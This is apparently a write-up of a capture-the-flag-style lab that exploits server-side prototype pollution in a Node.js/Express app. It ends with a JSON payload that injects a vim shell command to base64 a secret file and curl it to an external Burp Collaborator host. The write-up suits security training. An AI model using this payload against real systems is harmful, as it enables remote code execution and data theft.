# Exfiltrating sensitive data via server-side prototype pollution
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that leaks the contents of Carlos's home directory (`/home/carlos`) to the public Burp Collaborator server.
4. Exfiltrate the contents of a secret file in this directory to the public Burp Collaborator server.
5. Submit the secret you obtain from the file using the button provided in the lab banner.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.
Endpoint `/admin/jobs` allows to run maintanence job.

||
|:--:|
| *Change billing and delivery address information request* |
||
| *Admin panel - run maintenance jobs* |
||
| *Admin panel - maintenance jobs results* |
||
| *Admin panel - run maintenance request* |

## Exploitation
Attacker can achieve remote code execution by polluting (modifying) `shell` and `input` value. Triggering `Run Maintenance Jobs` spawns node child processes, which allows to trigger attacker provided command - malicious properties are passed to `child_process.execSync()`.

Payload provided in `input` is passed to `shell` command (`vim` in this case) as standard input. Payload in `input` must end with `\n` to be executed by `vim`.

Local payload test:
```
$ echo ":! echo test\n" | vim
Vim: Warning: Input is not from a terminal

test

Press ENTER or type command to continueVim: Error reading input, exiting...
Vim: Finished.
```

||
|:--:| 
| *Standard request and raw response* |
||
| *Prototype pollution detection - JSON in response is indented 10 spaces* |
||
| *Prototype pollution - RCE confimation* |
||
| *Prototype pollution - RCE confimation - After running maintenance job* |
||
| *Prototype pollution - Data exfiltration test* |
||
| *Prototype pollution - Data exfiltration test* |
||
| *Prototype pollution - Secret data exfiltration* |
||
| *Prototype pollution - Secret data exfiltration - After running maintenance job* |

Final payload:
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "kYonQpae8yHAjW4zkPcx78fsFSbBuu6D",
  "__proto__": {
    "shell": "vim",
    "input": ":! cat /home/carlos/secret | base64 | curl -d @- https://<id>.oastify.com\n"
  }
}
```